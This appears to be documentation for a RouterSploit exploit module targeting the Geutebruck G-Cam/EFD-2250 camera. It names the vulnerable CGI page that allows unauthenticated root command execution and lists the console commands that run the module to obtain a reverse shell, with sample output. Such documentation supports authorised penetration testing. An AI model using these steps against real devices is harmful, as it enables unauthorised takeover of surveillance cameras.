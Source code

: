 ## Description

This module exploits a an arbitrary command execution vulnerability. The vulnerability exists in the /uapi-cgi/viewer/simple_loglistjs.cgi page and allows an anonymous user to execute arbitrary commands with root privileges.

## Verification Steps

  1. Start ./rsf.py
  2. use exploits/cameras/geuterbruck/efd_2250
  3. set target 192.168.1.1
  5. run
  6. If device is vulnerable you will receive reverse shell.

## Scenarios

```
rsf > use exploits/cameras/geuterbruck/efd_2250
rsf (Geutebruck G-Cam/EFD-2250 RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Geutebruck G-Cam/EFD-2250 RCE) > run
[*] Running module exploits/cameras/geuterbruck/efd_2250...
[+] Target seams 192.168.1.1:80 is vulnerable

```

